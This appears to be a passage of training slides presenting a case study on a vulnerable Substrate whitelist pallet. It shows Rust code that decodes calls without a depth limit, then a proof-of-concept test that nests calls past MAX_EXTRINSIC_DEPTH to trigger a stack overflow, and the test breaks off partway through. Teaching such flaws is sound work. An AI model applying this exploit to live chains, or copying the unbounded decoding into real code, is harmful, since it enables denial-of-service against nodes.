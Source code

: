 ---v

### Case Study - Whitelist Pallet - Issue

<div style="font-size: smaller">

```rust [0|18-19]
/// Remake of vulnerable whitelist pallet
pub fn dispatch_whitelisted_call(
    origin: OriginFor<T>,
    call_hash: PreimageHash,
    call_encoded_len: u32,
    call_weight_witness: Weight,
) -> DispatchResultWithPostInfo {
    T::DispatchWhitelistedOrigin::ensure_origin(origin)?;

    ensure!(
        WhitelistedCall::<T>::contains_key(call_hash),
        Error::<T>::CallIsNotWhitelisted,
    );

    let call = T::Preimages::fetch(&call_hash, Some(call_encoded_len))
        .map_err(|_| Error::<T>::UnavailablePreImage)?;

    let call = <T as Config>::RuntimeCall::decode(&mut &call[..])
        .map_err(|_| Error::<T>::UndecodableCall)?;
```

</div>

---v

### Case Study - Whitelist Pallet - Exploit PoC

<div style="font-size: smaller">

```rust [0|5-8|14-20|22-31|37-47]
/// Remake of vulnerable whitelist pallet
#[test]
fn test_unsafe_dispatch_whitelisted_call_stack_overflow() {
	new_test_ext().execute_with(|| {
		let mut call = 
			RuntimeCall::System(
				frame_system::Call::remark_with_event { remark: vec![1] }
			);
		let mut call_weight = call.get_dispatch_info().weight;
		let mut encoded_call = call.encode();
		let mut call_encoded_len = encoded_call.len() as u32;
		let mut call_hash = <Test as frame_system::Config>::Hashing::hash(&encoded_call[..]);

		// The amount of nested calls to create
		// This test will not crash as it the following value is less than minimum
		// amount of calls to cause a stack overflow
		let nested_calls = sp_api::MAX_EXTRINSIC_DEPTH;

		// The following line to get a stack overflow error on decoding (pallet)
		let nested_calls = nested_calls*4;

		// Create the nested calls
		for _ in 0..=nested_calls {
			call = RuntimeCall::Whitelist(crate::Call::dispatch_whitelisted_call_with_preimage {
				call: Box::new(call.clone()),
			});
			call_weight = call.get_dispatch_info().weight;
			encoded_call = call.encode();
			call_encoded_len = encoded_call.len() as u32;
```